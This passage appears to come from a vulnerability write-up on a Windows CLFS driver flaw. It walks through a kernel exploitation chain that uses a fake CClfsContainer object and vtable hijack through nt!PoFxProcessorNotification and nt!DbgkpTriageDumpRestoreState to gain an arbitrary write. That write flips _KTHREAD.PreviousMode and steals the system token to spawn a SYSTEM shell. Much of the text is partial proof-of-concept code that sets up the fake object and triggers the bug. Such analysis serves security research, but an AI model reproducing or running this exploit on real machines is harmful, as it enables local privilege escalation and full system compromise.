--- Driver execution ---
* Doing the above dereferences the malicious `CClfsContainer` object at a user controlled address.
* This calls `nt!PoFxProcessorNotification` which redirects the execution flow to `nt!DbgkpTriageDumpRestoreState` which is used to obtain arbitrary 8 byte write.
* Use this primitive to overwrite the `_KTHREAD.PreviousMode` of the current thread to 0 (kernelmode), granting us arbitrary read/write primitives to the whole address space using NtReadVirtualMemory() and NtWriteVirtualMemory().

--- POC execution ---
* POC can now read and copy the system `_EPROCESS.Token` using a series of call to `NtReadVirtualMemory()/NtWriteVirtualMemory()` and plant it into our current process, giving our user mode POC the same privileges as the system process.
* Spawn a cmd shell with system privileges.

In depth analysis of the kernel functions exploit has been performed and documented below.
POC code:
```
...
pcclfscontainer = VirtualAlloc(0x2100000, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
memset(pcclfscontainer, 0, 0x1000);

vtable = pcclfscontainer + 0x100;
rcx = pcclfscontainer;    //0x2100000

*(rcx + 0x40) = pcclfscontainer + 0x200;
*(pcclfscontainer + 0x200 + 0x68) = KernelBase + offset_nt!DbgkpTriageDumpRestoreState;

//location of arguments to pass to nt!DbgkpTriageDumpRestoreState
*(rcx + 0x48) = pcclfscontainer + 0x300;
arg_nt!DbgkpTriageDumpRestoreState = pcclfscontainer + 0x300;

//address of arbitrary write of nt!DbgkpTriageDumpRestoreState. It writes at offset 0x2078
*(arg_nt!DbgkpTriageDumpRestoreState) = AddressOfUserThread + offset_KTHREAD.PreviousMode - 0x2078;

//value of arbitrary write of nt!DbgkpTriageDumpRestoreState
*(arg_nt!DbgkpTriageDumpRestoreState + 0x10) = 0x0;    //KernelMode

//[1] is the offset of the Release() function found in the vtable pointed to by pContainer
vtable[1] = KernelBase + offset_nt!PoFxProcessorNotification;
*pcclfscontainer = vtable;

//trigger vulnerability after preparing addresses
logHndl = CreateLogFile(logFileName.c_str(),
    GENERIC_WRITE | GENERIC_READ,
    FILE_SHARE_READ | FILE_SHARE_WRITE,
    NULL,
    OPEN_ALWAYS,
    0);
...
//swap user process _EPROCESS.Token with system process
//restore _KTHREAD.PreviousMode to UserMode
//spawn system cmd shell
```
